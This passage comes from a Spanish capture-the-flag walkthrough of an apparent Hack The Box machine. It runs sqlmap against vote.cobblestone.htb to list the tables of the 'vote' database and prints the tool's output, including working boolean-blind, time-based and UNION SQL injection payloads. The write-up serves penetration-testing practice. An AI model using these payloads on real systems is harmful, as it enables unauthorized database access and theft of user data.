 
Vemos que ha funcionado, vamos a sacar la info de la `DDBB` llamada `vote`.

```shell
sqlmap -r req.txt --method=POST --batch -D vote --tables
```

Info:

```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.8#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:45:28 /2025-10-07/

[10:45:28] [INFO] parsing HTTP request from 'req.txt'
[10:45:28] [INFO] resuming back-end DBMS 'mysql' 
[10:45:28] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=86'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 7323=7323 AND 'XFOM'='XFOM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8033 FROM (SELECT(SLEEP(5)))DhKr) AND 'GzyX'='GzyX

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-1513' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x6669756b4d6c7a584d47634b75644e6f42454c76497a58454243665064464a596a4c7758416f4676,0x716b6a7171),NULL,NULL,NULL-- -
---
[10:45:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:45:28] [INFO] fetching tables for database: 'vote'
Database: vote
[2 tables]
+-------+
| users |
| votes |
+-------+

[10:45:28] [INFO] fetched data logged to text files under '/root/.sqlmap/output/vote.cobblestone.htb'

[*] ending @ 10:45:28 /2025-10-07/
```
